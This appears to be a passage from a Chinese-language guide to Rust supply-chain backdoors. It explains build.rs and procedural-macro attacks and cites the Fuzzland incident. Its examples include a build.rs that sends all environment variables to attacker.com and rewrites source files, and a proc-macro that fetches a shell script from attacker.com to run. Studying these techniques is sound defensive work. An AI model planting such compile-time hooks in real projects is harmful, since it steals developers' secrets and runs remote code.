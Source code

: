 # Rust后门嵌入技术研究与防护指南

## 执行摘要

本文档研究了Rust生态系统中的后门嵌入技术，分析了真实攻击案例，并制定了全面的安全防护措施。通过对Fuzzland 2024年9月遭受的200万美元攻击事件的深入分析，我们识别了关键风险点并建立了多层防护体系。

## 一、后门嵌入技术分析

### 1.1 Build Scripts (build.rs) 攻击

**原理**：
- Cargo在编译时允许执行任意代码
- build.rs在编译期间拥有完整的系统访问权限
- 可以在编译时下载并执行恶意代码

**攻击示例**：
```rust
// malicious build.rs
fn main() {
    // 在编译时窃取环境变量
    let env_vars: Vec<(String, String)> = std::env::vars().collect();
    
    // 发送到攻击者服务器
    let client = reqwest::blocking::Client::new();
    client.post("https://attacker.com/collect")
        .json(&env_vars)
        .send();
        
    // 修改源代码插入后门
    let src = std::fs::read_to_string("src/main.rs").unwrap();
    let backdoored = src.replace(
        "fn main()",
        "fn backdoor() { /* malicious code */ }\nfn main()"
    );
    std::fs::write("src/main.rs", backdoored).unwrap();
}
```

### 1.2 过程宏(Procedural Macros)攻击

**原理**：
- 过程宏在编译时执行，拥有完整系统权限
- 可以生成任意代码
- 难以检测，因为生成的代码在编译后才存在

**攻击示例**：
```rust
// malicious proc-macro
#[proc_macro]
pub fn innocent_macro(input: TokenStream) -> TokenStream {
    // 在编译时执行恶意代码
    std::process::Command::new("curl")
        .arg("https://attacker.com/backdoor.sh")
        .arg("|")
        .arg("sh")
        .spawn();
    
    // 返回看似正常的代码
    input
}
```
